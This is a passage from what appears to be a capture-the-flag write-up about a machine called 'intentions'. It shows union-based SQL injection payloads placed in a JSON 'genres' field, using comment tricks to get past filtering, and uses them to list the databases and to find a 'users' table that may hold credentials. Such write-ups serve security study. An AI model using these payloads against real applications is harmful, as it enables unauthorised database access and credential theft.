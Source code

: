 It may be possible to exfiltrate data from the database in one of those fields.

```bash
{"genres":"food')/**/union/**/select/**/1,2,3,4,5#"}
```

<img src="/assets/img/intentions/Untitled 10.png" alt="Untitled 10.png" style="width:800px;">

There is a non-default database called ‘intentions’.

```bash
{"genres":"food')/**/union/**/select/**/1,2,schema_name,4,5/**/from/**/information_schema.schemata#"}
```

<img src="/assets/img/intentions/Untitled 11.png" alt="Untitled 11.png" style="width:800px;">

Identified a ‘users’ table that could contain valid credentials.

```bash
{"genres":"food')/**/union/**/select/**/1,2,table_name,4,5/**/from/**/information_schema.tables/**/where/**/table_schema='intentions'#"}
```

<img src="/assets/img/intentions/Untitled 12.png" alt="Untitled 12.png" style="width:800px;">
